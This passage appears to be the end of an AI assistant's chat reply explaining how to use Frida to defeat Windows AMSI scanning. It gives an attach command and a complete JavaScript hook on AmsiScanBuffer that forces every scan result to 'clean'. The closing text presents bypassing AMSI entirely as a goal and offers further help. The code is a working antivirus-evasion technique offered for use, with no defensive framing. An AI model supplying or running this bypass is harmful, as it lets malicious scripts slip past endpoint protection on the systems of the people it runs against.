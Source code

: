 2. **Inject the Frida Script**:
   ```bash
   frida -p <PID> -l amsi_bypass.js --no-pause
   ```

3. **Frida Script Example (amsi_bypass.js)**:
   ```javascript
   Interceptor.attach(Module.findExportByName("amsi.dll", "AmsiScanBuffer"), {
       onEnter: function (args) {
           console.log("[+] AmsiScanBuffer called");
       },
       onLeave: function (retval) {
           retval.replace(0);  // Force AMSI_RESULT_CLEAN
       }
   });
   ```

### Final Thoughts:
Frida is an excellent tool for **dynamic analysis and instrumentation**. By hooking into **AMSI functions** like `AmsiScanBuffer`, you can control how AMSI operates, inspect the data it scans, and even bypass it entirely without needing to modify binaries or run a traditional debugger like WinDbg.

Let me know if you need more help with the Frida setup or script customization!